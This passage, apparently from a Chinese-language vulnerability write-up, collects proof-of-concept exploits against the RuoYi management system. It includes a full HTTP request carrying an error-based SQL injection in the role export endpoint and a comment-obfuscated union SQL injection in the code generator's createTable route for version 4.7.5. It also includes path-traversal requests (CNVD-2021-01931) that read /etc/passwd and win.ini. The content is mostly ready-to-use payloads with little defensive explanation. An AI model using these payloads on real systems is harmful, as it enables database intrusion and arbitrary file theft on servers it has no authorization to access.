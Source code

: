 ![](https://mmbiz.qpic.cn/sz_mmbiz_png/RjOvISzUFq5z0RsG3VTyOD5JE01bZRzGcewUYrA7AEsMibqzsgvUme04aboAqB3ewvBGlvNNWt1zeDbFprpbR3w/640?wx_fmt=png&from=appmsg "")  
  
  
第三个sql注入点POC：  
```
POST /system/role/export HTTP/1.1
Host: 127.0.0.1
Content-Length: 75
sec-ch-ua: "Chromium";v="109", "Not_A Brand";v="99"
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.120 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://127.0.0.1
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://127.0.0.1/system/role
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: o0At_2132_saltkey=JW6Gt2hb; o0At_2132_lastvisit=1691240426; o0At_2132_ulastactivity=2db4EUfD9WS50eLvnip%2B9TxK2ZhcO65vPL0dA6sPVF8AQSBMa6Qn; JSESSIONID=cfcf2d1f-f180-46cf-98bb-5eacc4206014
Connection: close
params[dataScope]=and extractvalue(1,concat(0x7e,(select database()),0x7e))
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/RjOvISzUFq5z0RsG3VTyOD5JE01bZRzGiawgdVicEJzhMxQICbSkYHKHy2iamoJv3MZdyicIMZaTicYq3DJ8cQIysAw/640?wx_fmt=png&from=appmsg "")  
### RuoYi4.7.5版本后台sql注入  
  
ruoyi-4.7.5 后台 com/ruoyi/generator/controller/GenController 下/tool/gen/createTable路由存在sql注入。  
  
POC：  
```
sql=CREATE table ss1 as SELECT/**/* FROM sys_job WHERE 1=1 union/**/SELECT/**/extractvalue(1,concat(0x7e,(select/**/version()),0x7e));
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/RjOvISzUFq5z0RsG3VTyOD5JE01bZRzGufEdK0HbMiapJdTOsonQUVvOqApb7libcSOdzKhEhCibnIlO28vUEbgDw/640?wx_fmt=png&from=appmsg "")  
## 若依后台任意文件读取（CNVD-2021-01931）  
### 漏洞简介  
  
若依管理系统是基于springboot的权限管理系统，登录后台后可以读取服务器上的任意文件。影响版本：RuoYi<4.5.1  
### 漏洞复现  
  
POC:  
```
/common/download/resource?resource=/profile/../../../../etc/passwd
/common/download/resource?resource=/profile/../../../../Windows/win.ini
```  
  
